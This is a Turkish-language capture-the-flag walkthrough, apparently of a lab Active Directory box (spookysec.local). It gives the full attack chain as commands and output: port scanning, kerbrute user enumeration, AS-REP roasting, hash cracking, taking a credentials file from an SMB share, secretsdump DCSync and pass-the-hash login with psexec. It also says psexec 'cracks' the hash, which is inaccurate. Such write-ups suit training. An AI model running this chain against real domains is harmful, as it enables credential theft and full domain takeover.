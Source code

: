 Nmap ile tarama yapıyoruz.
```bash
nmap -sV -p- 10.10.245.247 -Pn -o nmap -T5
```
sonuçlar:
- 135/tcp   open     msrpc         Microsoft Windows RPC
- 139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
- 3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
- 389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)

bu şekilde ise 
/etc/host içine  ekliyoruz

```bash
echo "10.10.245.247 spookysec.local" >> /etc/hosts
```
daha sonra nmap sonucunda çıkan bütün portları:
```bash
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,3389 -A -T4 spookysec.local
```
tarama yapıyoruz
sonuçlar:
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-04-25T12:42:55+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2025-04-25T12:42:47+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local


bu şekilde oluyor

daha sonra 

```bash
enum4linux -a  spookysec.local
```

sonra kerbrute ile system üzerindeki kullanıcalı bulmamız lazım bunun için;
```bash
kerbrute userenum --dc spookysec.local0 -d spookysec.local userlist.txt
```
sonuçlar:
+ validusername svc-admin@spookysec.local
+ validusername backup@spookysec.local

daha sonra bulduğumuz userlerin paralo hashlerini alıcaz
/opt/impacket/examples altından

```bash
python3 GetNPUsers.py spookysec.local/svc-admin -no-pass 
```
elde ettiğimiz hashi;

```bash
john -w=passwordlist.txt hash.txt
```

şimdi elde ettiğimiz kullanıcı ve pass ile smbye giricez

```bash
smbclient -L spookysec.local --user svc-admin
```
sonuçlar:
 Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 

şimdi backup içine giricez:
```bash
smbclient \\\\spookysec.local\\backup --user svc-admin
```
sonuçlar:
Password for [WORKGROUP\svc-admin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020

                8247551 blocks of size 4096. 3630403 blocks available
smb: \> get backup_credentials.txt 
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit

backup_cred info: backup@spookysec.local:backup2517860 =>> backup2517860 bu kısım şifre

daha sonra  bu kullanıcı hesabının erişebildiği tüm parola karmalarını alabileceğiz.

/opt/impacket/examples altından

```bash
python3 secretsdump.py -just-dc backup@spookysec.local
```
sonuçlar:
kullanıcı_adı:RID:kırılıcak hash bu aşağıdaki 2 hashler
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc   :::


buradaki hashi kırıcaz 
/opt/impacket/examples altından
```bash
python3 psexec.py Administrator:@spookysec.local -hashes 0e0363213e37b94221497260b0bcb4fc
```
bu şifreyi kırar ve içeriye giriş yapar.
